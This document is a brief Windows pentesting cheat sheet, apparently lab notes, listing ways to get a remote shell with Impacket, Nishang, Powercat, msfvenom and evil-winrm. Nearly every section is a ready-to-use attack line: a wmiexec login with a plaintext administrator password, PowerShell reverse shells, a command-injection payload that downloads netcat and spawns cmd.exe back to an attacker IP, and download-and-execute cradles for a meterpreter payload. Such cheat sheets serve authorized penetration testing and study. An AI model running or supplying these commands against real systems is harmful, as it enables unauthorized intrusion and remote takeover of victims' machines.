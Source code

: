 
# Guide

1. If you have credentials, see [[#Impacket]]

# Impacket

```
wmiexec.py 'administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125'
```
# PowerShell

## Nishang

[nishang/Shells/Invoke-PowerShellTcp.ps1 at master · samratashok/nishang · GitHub](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 443
```

```
cmd=dir|powershell -c "iwr -uri http://192.168.49.57:8000/nc.exe -outfile %temp%\\n.exe"; %temp%\\nc.exe -e cmd.exe 192.168.49.57 80
```

## Powercat

```
c:\\windows\\SysNative\\WindowsPowershell\\v1.0\\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.19.62:8000/powercat.ps1'); powercat -c 192.168.19.62 -p 443 -e cmd.exe
```
# PHP

[GitHub - Dhayalanb/windows-php-reverse-shell: Simple php reverse shell implemented using binary .](https://github.com/Dhayalanb/windows-php-reverse-shell)

# MSFVenom

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=445 -f psh -o www/met-445.ps1`

`iex(new-object net.webclient).downloadstring('http://10.10.14.5/met-445.ps1')`

# Loud Option

[GitHub - Hackplayers/evil-winrm: The ultimate WinRM shell for hacking/pentesting](https://github.com/Hackplayers/evil-winrm)
